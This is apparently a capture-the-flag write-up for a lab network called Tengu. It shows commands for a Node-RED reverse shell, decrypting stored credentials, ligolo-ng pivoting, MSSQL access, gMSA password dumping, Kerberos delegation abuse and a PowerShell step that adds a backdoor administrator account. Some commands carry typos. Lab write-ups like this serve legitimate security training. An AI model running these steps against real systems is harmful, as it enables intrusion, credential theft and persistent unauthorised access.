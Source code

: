 
# NMAP

* Rust scan result
 
```console
Open 10.10.185.167:22
Open 10.10.185.167:1880
```

## Web

* Node-red web service can be exploited via [noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

![image](https://github.com/reneanto/write-ups/assets/44943249/5def2930-6800-4a94-a52e-0a938e3747ed)
```bash
python3 noderedsh.py http://$IP:1080 --user "" --password ""
```

![nodered-svc](/Vulnlabs/Chains/Images/tengu-nodered.png)

### nodered_svc

* further exploring the nodered_svc directory, we come across `flows_cred.json` 
* according to this [article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/), we can get the `flows_cred.json` and the `.config.runtime.json` in to the folder `node_red_data` , then run the following script

```bash

#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

* upon running this we get the sql credentials that were found in the web application
## Pivoting

* navigate to /tmp on nodered as a good practice
* then use `ligolo-ng` to pivot

```bash
#on attacker machine
sudo ip tuntap add user rzgami mode tun ligolo
sudo ip link set ligolo up
./proxy --selfcert

#on nodered
./agent -connect $IP:11601 -ignore-cert

#on attacker machine
ligolo-ng>session
sudo ip route add 10.10.x.230/32 dev ligolo
sudo ip route add 10.10.x.229/32 dev ligolo
ligolo-ng>start
```

## MSSQL

* checking if the sqlsvc exists based on the credentials found in the machine node-red

```bash
nxc mssql 10.10.x.229-230 -U "nodered_connector" -P "" --local-auth
```

* logging in with impacket's `mssqclient`

```bash
impacket-mssqlclient tengu.vl\nodered_connector:pwd@$IP
```

* then enumerating the Database as

```bash
enum_db
select demo
select * from INFORMATION_SCHEMA.tables
select * from Users
```

![Tengu-Sql-Users](/Vulnlabs/Chains/Images/tengu-sql.png)

## Root on noderedsvc

* With the credentials from the sql database we can now login to the Linux machine Nodredsvc.

```bash
t2.m_winters@tengu.vl@nodredsvc.tengu.vl
sudo su
```

## Bloodhound

* With the same credentials we can extract information regarding the domain via `bloodhound`

```bash
bloodhound-python -u 't2.m_winters' -p 'pwd' -d 'tengu.vl' -dc 'dc.tengu.vk' -ns 10.10.x.229 -c all -zip
```

* Ingesting that data onto bloodhound and then using [bhqc](https://github.com/kaluche/bloodhound-quickwin) to get us brief overview over

```bash
python3 bhqc.py -u neo4j -p pwd -d TENGU.VL --heavy
```

![bhqc](/Vulnlabs/Chains/Images/tengu-bhqc.png)

## GMSA

* As suggested by the output above and with the help of [Pentester's-promiscuous-notebook](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos) , we can extract the krb5.keytab with [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) .

![krb5hash](/Vulnlabs/Chains/Images/tengu-krb5.png)

* Consulting the [Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword) for further exploiting the GMSA we can do

```bash
gMSADumper.py -u 'NODERED$' -p 'hash' -d 'tengu.vl'
which surprisingly gives an error
```

* so we move on with `nxc`

```bash
nxc ldap dc.tengu.vl -u 'NODERED$' -H 'hash' --gmsa
```

![gmsa](/Vulnlabs/Chains/Images/tengu-gmsa.png)

## Delegation

* Then again as per `bhqc` and [hacker recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/#recon) regarding delegation, we can get more info by running impacket's `findDelegation.py`

```bash
impacket-findDelegation.py "tengu.vl"/"gMSA01$":""@dc.tengu.vl -hashes ":hash"
```

![delegation](/Vulnlabs/Chains/Images/tengu-delegation.png)

* And as mentioned in [hacker recipes-KCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained) 

```bash
getST -spn "MSSQLSvc/tengu.vl" -impersonate "T1.M_WINTERS" "tengu.vl"/"gMSA01$":""@"dc.tengu.vl" --dc-ip 10.10.x.229
```

![getST](/Vulnlabs/Chains/Images/tengu-getST.png)

* we can export the ccache and use impacket's `mssqlclient ` to login with kerberos auth as

```bash
export KRB5CNAME=T1_M.WINTERS@MSSQLSvc_sql.tengu@TENGU.VL.ccache

impacket-mssqlclient -k sql.tengu.vl
```


## Ligolo outbound firewall

```
listener_add --addr 0.0.0.0:53 --to 10.8.2.42:53 --tcp
listener_add --addr 0.0.0.0:123 --to 10.8.2.42:123 --tcp
```

```powershell
New-LocalUser -Name "newadmin" -Password (ConvertTo-SecureString 'Password!' -AsPlainText -Force)  

Add-LocalGroupMember -Group "Administrators" -Member "newadmin"  
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
